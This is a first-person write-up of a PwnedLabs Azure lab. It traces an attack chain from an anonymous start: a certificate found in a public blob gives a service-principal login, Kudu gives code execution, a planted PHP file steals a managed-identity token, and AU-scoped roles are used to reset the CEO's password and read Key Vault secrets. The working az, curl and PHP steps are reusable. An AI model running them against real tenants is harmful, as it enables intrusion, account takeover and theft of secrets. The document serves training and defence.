This is my writeup for the lab "Passwordless Credentials for Access and Escalation" by PwnedLabs.

## The Scenario

All I was handed at the start was a domain: `megabigtech.com`. No username, no password, nothing to log in with. So this one starts completely from the outside, as an anonymous attacker who only knows the company name, and the whole challenge is to claw your way in from public information alone and then climb from there.

A quick note on tooling so the rest of the post makes sense. For ARM (the resource side) I usually reach for the `az` CLI, and for Entra enumeration AzureHound is the easiest, but a lot of this lab happens before I have any credentials at all. So the early part leans on external recon tools (getuserrealm, AADInternals, azsubenum, goblob), and once I finally get a token I switch to `az` and Graphpython depending on what I am poking at.

## The Strategy

The chain that ended up working looked like this:

1. Confirm the tenant is on Entra and grab the tenant ID from public endpoints.
2. Enumerate subdomains and storage accounts tied to the company name.
3. Find a publicly readable blob container and loot it, which leaks a service principal certificate.
4. Log in "passwordless" as that service principal using just the certificate.
5. The SP turns out to be Website Contributor on an App Service. Use that to get code execution via Kudu.
6. The App Service has a system-assigned managed identity. Steal its token from inside the app container.
7. That managed identity holds AU-scoped User Administrator and Password Administrator over an administrative unit whose only real member is the CEO.
8. Reset the CEO's password, log in as her, and read the Key Vault secrets she has access to.

## External recon: is this even Entra?

First thing I always check is whether the domain is actually backed by Entra ID and, if so, whether it is a managed (cloud-only) or federated tenant. The `getuserrealm` endpoint tells you both in one shot. `NameSpaceType: Managed` confirms it is a cloud-managed Entra tenant, so auth happens at login.microsoftonline.com and there is no on-prem ADFS in the way.



Next I pulled the OpenID configuration for the domain. The nice thing here is the token and authorize endpoints have the tenant ID baked right into the URL, so I had the tenant GUID without authenticating to anything.



To cross-check and gather a bit more, I ran AADInternals' `Invoke-AADIntReconAsOutsider`. Same tenant ID, brand name, region, and it also confirms DesktopSSO is enabled. Requests got throttled here, which is normal when you hammer these public endpoints, but I already had what I needed.



## Enumerating subdomains and storage

With the tenant confirmed, I went after the company's cloud footprint. `azsubenum` brute-forces common Azure service subdomains off a base name. The plain run already turned up app services, a SharePoint tenant, and the Kudu/SCM hostname.



The base wordlist is fine, but the good stuff showed up once I applied permutations. Now I had a whole spread: multiple app services (prod, staging, qa, dev), and storage accounts across blob, file, and table endpoints. The two storage accounts that caught my eye were `megabigtechinternal` and `megabigtechconf`.



## Looting a public blob container

Storage accounts are only useful to an anonymous attacker if a container is set to public access. Rather than guess container names by hand, I pointed `goblob` at both accounts. It enumerates containers and lists anything readable, and it hit paydirt: in `megabigtechinternal` there was a `data` container exposing `ApplicationIDs.csv` and, more interestingly, `sp.pfx`. `megabigtechconf` leaked a `new-provisioning.conf` from a `public` container.



A `.pfx` just sitting in a public blob is a gift. That is a certificate, and in Azure certificates are login material for service principals. I converted it and inspected it with openssl. The subject and issuer both say `CN=HrPortal`, and the validity runs out to 2099, so this is a long-lived app credential.



The certificate tells me _what_ app it belongs to by name (HrPortal), but to actually log in I need that app's client ID. That is exactly what the other leaked file is for. I grepped `ApplicationIDs.csv` and there it was: `HrPortal` mapped to its AppId.



## Passwordless login as the service principal

Now I have both halves: the app (client) ID and its certificate. That is all Azure needs for a certificate-based service principal login, no secret or password anywhere. This is the "passwordless" part the lab name is hinting at.

```
az login --service-principal -u <HrPortal-appId> --certificate sp.pem --tenant <tenant-id>
```

It logged me straight in as a service principal in the Mega Big Tech tenant.



## From the service principal to code execution

First question after any login: what can this identity touch? `az resource list` showed a single web app, `megabigtech-hr-portal`. Then `az role assignment list` explained why I could see it. The SP is **Website Contributor** scoped to that exact App Service.



Website Contributor is a powerful role on a web app. It lets you pull the publishing credentials, and publishing credentials get you into Kudu (the SCM site), which is basically a management console and command runner sitting behind the app. But before going there I checked one more thing on the app, and it is the thing that makes the rest of the chain possible: the web app has a **system-assigned managed identity**.



That managed identity is the real prize. If I can run code inside the app, I can ask the local identity endpoint for a token as that MI, and the MI usually has more interesting permissions than my leaked SP does.

I pulled the publishing credentials with `az webapp deployment list-publishing-credentials` and used them against the Kudu `/api/command` endpoint to run `printenv`. Code execution confirmed.



Here is the catch though. On Linux App Service, Kudu runs in a _separate container_ from your actual application. So when I grepped the Kudu environment for the identity variables, they were not there.



The managed identity environment variables (`IDENTITY_ENDPOINT` and `IDENTITY_HEADER`) only live in the app container, where the site code runs. So to steal the MI token I needed code running in _that_ container, not Kudu. The app is PHP, so I wrote a tiny PHP file that reads those two env vars and calls the local identity endpoint:

```php
<?php
$e=getenv('IDENTITY_ENDPOINT');$h=getenv('IDENTITY_HEADER');
$r=$_GET['resource']??'https://vault.azure.net';
$c=curl_init("$e?resource=$r&api-version=2019-08-01");
curl_setopt($c,CURLOPT_RETURNTRANSFER,true);
curl_setopt($c,CURLOPT_HTTPHEADER,["X-IDENTITY-HEADER: $h"]);
echo curl_exec($c);
```

Walking through it: `IDENTITY_ENDPOINT` is the local URL the App Service runtime exposes for the managed identity (the App Service equivalent of IMDS on a VM), and `IDENTITY_HEADER` is a per-instance secret you have to send so the endpoint knows the request is legitimately coming from inside the app. Both are injected as env vars, which is why reading them needs code in the app container. The `resource` parameter is the audience I want a token for, defaulting to Key Vault but overridable via the query string so I can ask for different audiences (Graph, ARM, and so on) without re-uploading the file. The script then just calls `IDENTITY_ENDPOINT?resource=<audience>&api-version=2019-08-01` with the `X-IDENTITY-HEADER` set, and echoes back whatever the identity endpoint returns, which is a JSON blob containing the `access_token`.

Then I used Kudu's VFS API to drop the file into the site's webroot:

```
curl -s -u '$<app>:<publishing-password>' \
  -X PUT "https://<app>.scm.azurewebsites.net/api/vfs/site/wwwroot/mi.php" \
  -H "If-Match: *" --data-binary @mi.php
```

The VFS endpoint runs through Kudu (which shares the file system with the app container via `/home/site/wwwroot`), so even though Kudu itself has no identity env vars, a file written there executes in the app container when I request it over the normal hostname. Hitting `https://<app>.azurewebsites.net/mi.php` then handed me a managed identity access token.



I grabbed a token for the Key Vault audience first, but the MI could not actually see any vault, so that was a dead end. The useful move was to mint a token for the Microsoft Graph audience instead and see what the MI could do in the directory.

## The managed identity's hidden power: AU-scoped roles

With the MI's Graph token loaded, I went looking at administrative units. Listing the AUs showed a couple, and the one that stood out was `HR-UNIT2`, described as "Allows the HR team to manage user properties."



AUs matter here because of how scoped roles work. A role assignment scoped to an administrative unit does not show up in the normal directory roles or `wids` listing, so it is easy to miss. The way to catch it is to query the AU's `scopedRoleMembers` directly. When I did that for `HR-UNIT2`, the member holding the roles was `megabigtech-hr-portal`, which is the managed identity I just stole. It had **two** scoped role assignments on the AU.



So who is actually inside that AU? Listing the members of `HR-UNIT2` gave one real target: **Seline Diaz**, whose job title is CEO.



I resolved the two role template IDs to see exactly what the MI could do to members of that unit. They came back as **Password Administrator** ("Can reset passwords for non-administrators and Password Administrators") and **User Administrator** ("Can manage all aspects of users and groups, including resetting passwords for limited admins").



Put together: my stolen managed identity can reset the password of the CEO, because she is a member of an AU that the MI has User/Password Administrator over. The CEO herself holds no admin roles, so she counts as a "non-administrator" the Password Administrator role is allowed to reset.

## Resetting the CEO and reaching the Key Vault

I confirmed Seline had no directory roles of her own (so nothing blocked the reset), then used Graphpython's `update-userpassword` against her object ID. It came back "User password profile updated."



Then I just logged in as the CEO with the new password. Her `az resource list` was a different world from the SP's single web app: she has a Key Vault named **MBTBanking** in an `executive` resource group.



Listing the secrets in that vault gave me the two things worth having, including the lab flag.



## Why this worked

Every link in this chain is a small, realistic misconfiguration, and none of them individually screams "critical," which is exactly why it works.

A `.pfx` ended up in a public blob container, and a certificate is a login credential, so public read on one container was effectively anonymous access to a service principal. That SP had Website Contributor, which is code execution on the app in all but name. The app ran a managed identity, turning code execution into a directory token. And that managed identity had been handed powerful roles through an administrative unit, which hides the assignment from the usual role listings and quietly put the CEO's password within reach of a web app. The jump from "public domain name" to "CEO's banking secrets" is just those five everyday mistakes stacked on top of each other.

> **OPSEC:** Certificate-based SP logins, managed identity token requests from inside an app, and password resets through Graph all generate sign-in and audit events in Entra. The AU-scoped role abuse in particular shows up as a directory role membership that defenders can hunt for, so in a real engagement scope and time these actions deliberately rather than spraying them.
